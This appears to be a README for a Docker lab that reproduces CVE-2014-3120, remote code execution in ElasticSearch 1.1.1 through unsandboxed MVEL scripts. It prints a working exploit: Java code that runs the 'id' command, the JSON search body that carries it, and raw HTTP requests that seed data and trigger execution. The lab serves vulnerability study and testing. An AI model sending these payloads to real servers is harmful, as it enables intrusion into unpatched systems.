

# ElasticSearch 命令执行漏洞（CVE-2014-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.1.1

## 原理

相关文档：http://bouk.co/blog/elasticsearch-rce/ 、 https://www.t00ls.net/viewthread.php?tid=29408

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

## 漏洞测试

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

将Java代码放入json中：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后，执行任意代码：

```
GET /_search?source=%7B%0A%20%20%20%20%22size%22%3A%201%2C%0A%20%20%20%20%22query%22%3A%20%7B%0A%20%20%20%20%20%20%22filtered%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22query%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%22match_all%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22script_fields%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22command%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%22script%22%3A%20%22import%20java.io.*%3Bnew%20java.util.Scanner(Runtime.getRuntime().exec(%5C%22id%5C%22).getInputStream()).useDelimiter(%5C%22%5C%5C%5C%5CA%5C%22).next()%3B%22%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%20%20%7D HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

结果如图：

